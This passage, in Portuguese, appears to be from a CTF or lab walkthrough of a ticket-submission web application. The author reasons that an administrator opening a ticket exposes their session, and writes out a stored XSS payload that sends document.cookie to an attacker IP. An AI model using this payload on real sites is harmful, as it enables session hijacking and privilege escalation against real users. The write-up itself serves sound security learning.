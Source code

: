 ![](attachment/2ff99827ee990896af8687b9e85fce50.png)

Então, para testar a aplicação, enviarei um ticket para analisar o retorno.  
`Ticket submitted successfully! It will be reviewed shortly!`  
A primeira coisa que imaginei foi em um ataque de roubo de cookies dos administradores.

##### 2.4.1.1 Como eu cheguei nesse raciocínio?
Como a aplicação é baseada em tickets, haverá um momento em que algum usuário com permissões elevadas precisará abrir o ticket que eu enviarei. É nesse momento que a payload é injetada e, assim que eu obtiver os cookies do administrador, poderei realizar uma movimentação de usuário comum para um usuário com permissões elevadas.

##### 2.4.1.2 Payload de Roubo de Cookies
Então, montei a payload básica para realizar esse roubo.
`<script>new Image().src="http://10.13.72.32:80/"+document.cookie</script>`